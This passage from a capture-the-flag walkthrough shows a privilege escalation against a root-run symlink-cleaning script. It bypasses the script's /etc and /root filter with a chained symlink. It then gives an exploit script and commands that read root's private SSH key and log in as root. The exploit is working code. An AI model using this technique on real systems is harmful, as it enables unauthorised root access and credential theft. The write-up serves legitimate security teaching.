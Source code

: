 ```bash
if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

It’s a Bash script that reads a symbolic link pointing to a .png file and, if the `$CHECK_CONTENT` environment variable is set to `true`, it displays its contents. One important detail is that it blocks access to "critical" directories such as `/etc` and `/root`.

Bypassing the `.png` requirement is simple — we just need to give our symlink a .png extension. To bypass the restriction on accessing "sensitive" paths, we can use a symlink to a symlink. This way, the script won’t directly see that the file points to a restricted location; instead, it only sees the intermediate link.

To ensure that `$CHECK_CONTENT` is always set to `true`, we can simply run `export CHECK_CONTENT=true`.

To automate the whole process, we can create a simple Bash script like the following:

```bash
#!/bin/bash

path=$1

ln -s "$path" link.png
ln -s "$(pwd)/link.png" link-link.png

export CHECK_CONTENT=true

sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link-link.png

rm link.png link-link.png 2>/dev/null
```

We run it to extract the root’s private SSH key:

```
./exploit.sh /root/.ssh/id_rsa | tail -n +3 > id_rsa_root
chmod 600 id_rsa_root
ssh -i id_rsa_root root@localhost
```

We're now `root`. We can read the flag:
